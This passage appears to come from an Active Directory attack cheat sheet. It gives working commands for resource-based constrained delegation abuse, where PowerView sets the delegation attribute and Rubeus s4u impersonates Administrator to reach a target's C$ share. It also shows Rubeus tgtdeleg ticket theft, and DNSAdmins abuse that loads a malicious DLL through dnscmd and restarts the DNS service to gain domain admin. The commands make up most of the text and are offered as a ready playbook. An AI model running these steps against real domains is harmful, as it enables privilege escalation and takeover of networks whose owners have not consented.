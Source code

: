 ```

#Next, we need to set the security descriptor in the msDS-AllowedToActOnBehalfOfOtherIdentity field of the computer account we're taking over, again using PowerView
Get-DomainComputer TargetMachine | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes} -Verbose

#After that we need to get the RC4 hash of the new machine account's password using Rubeus
Rubeus.exe hash /password:'p@ssword!'

#And for this example, we are going to impersonate Domain Administrator on the cifs service of the target computer using Rubeus
Rubeus.exe s4u /user:<MachineAccountName> /rc4:<RC4HashOfMachineAccountPassword> /impersonateuser:Administrator /msdsspn:cifs/TargetMachine.wtver.domain /domain:wtver.domain /ptt

#Finally we can access the C$ drive of the target machine
dir \\TargetMachine.wtver.domain\C$
```

Detailed Articles:

* [Wagging the Dog: Abusing Resource-Based Constrained Delegation to Attack Active Directory](https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html)
* [RESOURCE-BASED CONSTRAINED DELEGATION ABUSE](https://blog.stealthbits.com/resource-based-constrained-delegation-abuse/)

In Constrain and Resource-Based Constrained Delegation if we don’t have the password/hash of the account with TRUSTED\_TO\_AUTH\_FOR\_DELEGATION that we try to abuse, we can use the very nice trick “tgt::deleg” from kekeo or “tgtdeleg” from rubeus and fool Kerberos to give us a valid TGT for that account. Then we just use the ticket instead of the hash of the account to perform the attack.

```
#Command on Rubeus
Rubeus.exe tgtdeleg /nowrap
```

Detailed Article: [Rubeus – Now With More Kekeo](https://www.harmj0y.net/blog/redteaming/rubeus-now-with-more-kekeo/)

#### **DNSAdmins Abuse**

_WUT IS DIS ?: If a user is a member of the DNSAdmins group, he can possibly load an arbitary DLL with the privileges of dns.exe that runs as SYSTEM. In case the DC serves a DNS, the user can escalate his privileges to DA. This exploitation process needs privileges to restart the DNS service to work._

1. Enumerate the members of the DNSAdmins group:
   * PowerView: `Get-NetGroupMember -GroupName "DNSAdmins"`
   * AD Module: `Get-ADGroupMember -Identiny DNSAdmins`
2. Once we found a member of this group we need to compromise it (There are many ways).
3. Then by serving a malicious DLL on a SMB share and configuring the dll usage,we can escalate our privileges:

```
#Using dnscmd:
dnscmd <NameOfDNSMAchine> /config /serverlevelplugindll \\Path\To\Our\Dll\malicious.dll

#Restart the DNS Service:
sc \\DNSServer stop dns
sc \\DNSServer start dns
```
